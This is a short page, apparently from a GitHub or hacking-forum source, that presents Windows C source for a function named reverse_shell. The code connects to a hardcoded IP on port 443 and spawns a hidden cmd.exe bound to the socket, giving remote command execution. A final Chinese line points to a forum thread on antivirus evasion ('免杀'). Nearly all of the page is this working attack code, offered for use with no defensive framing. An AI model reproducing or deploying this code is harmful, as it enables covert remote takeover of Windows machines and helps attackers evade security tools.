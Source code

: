```c


void reverse_shell()
{
        LPCSTR szMyUniqueNamedEvent = "sysnullevt";
        HANDLE m_hEvent = CreateEventA(NULL, TRUE, FALSE, szMyUniqueNamedEvent);

        switch (GetLastError())
        {
                // app is already running
        case ERROR_ALREADY_EXISTS:
        {
                                                                 CloseHandle(m_hEvent);
                                                                 break;
        }

        case ERROR_SUCCESS:
        {

                                                  break;
        }
        }


        WSAStartup(MAKEWORD(2, 2), &wsaData);
        Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

        hax.sin_family = AF_INET;
        hax.sin_port = htons(atoi("443"));

        hax.sin_addr.s_addr = inet_addr("172.31.139.141");
        WSAConnect(Winsock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

        memset(&ini_processo, 0, sizeof(ini_processo));
        ini_processo.cb = sizeof(ini_processo);
        ini_processo.dwFlags = STARTF_USESTDHANDLES;
        ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

        CreateProcessA(NULL, "cmd.exe", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&ini_processo, &processo_info);



}
```

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fzge5n0mezj212y0fsmzp.jpg)

服务端免杀：
<https://www.t00ls.net/viewthread.php?tid=46304&highlight=nc>

